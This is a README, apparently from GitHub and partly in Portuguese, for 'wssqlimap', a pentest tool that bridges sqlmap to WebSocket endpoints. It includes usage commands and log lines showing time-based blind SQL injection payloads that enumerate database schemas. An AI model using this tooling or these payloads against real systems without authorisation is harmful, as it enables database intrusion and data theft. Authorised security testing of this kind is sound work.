 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=wssqlimap)](https://git.io/typing-svg)



<h4 align="center">Script to perform WebSocket test focusing on SQLI</h4>


<p align="center">
  <a href="#instalação">Install</a> •
  <a href="#executando-websocket">Usage</a>
</p>

---

O wssqlimap é uma ferramenta de realizar teste em websocket com vulnerabilidade de SQL Injection deixando ele mais performático no pentester.

# Forma de utilização

```sh
wssqlimap --ws "ws://teste:9000/" --lhost 127.0.0.1 --lport 6060
```
Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
```yaml
usage: wssqlimap --ws "ws://teste:9000/" --lhost 127.0.0.1 --lport 6060

options:
  -h, --help            show this help message and exit
  --ws WEBSOCKET, -W WEBSOCKET Insert the websocket for the test
  --lhost HOST          Enter your ip. Default=127.0.0.1
  --lport PORT          Enter your port. Default=80

```

# Instalação

O wssqlimap requer **python3** e para baixá-lo só usar:

```sh
git clone https://github.com/joaoviictorti/wssqlimap
```

# Executando WebSocket

```console
python3 wssqlimap.py --ws "ws://teste.com:9091/" --lhost 127.0.0.1 --lport 6060
Use esse comando em outro terminal para realização da injeção com sqlmap: sqlmap -u "http://ip:port/?id=123" -p id .....

127.0.0.1 - - [29/Dec/2022 15:39:29] "GET /?id=1%20AND%20%28SELECT%206390%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20DISTINCT%28IFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%201%2C1%29%2C6%2C1%29%29%3E64%2C0%2C5%29%29%29%29%29iTrK%29 HTTP/1.1" 200 -
127.0.0.1 - - [29/Dec/2022 15:39:34] "GET /?id=1%20AND%20%28SELECT%206390%20FROM%20%28SELECT%28SLEEP%285-%28IF%28ORD%28MID%28%28SELECT%20DISTINCT%28IFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%201%2C1%29%2C6%2C1%29%29%3E96%2C0%2C5%29%29%29%29%29iTrK%29 HTTP/1.1" 200 -
```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>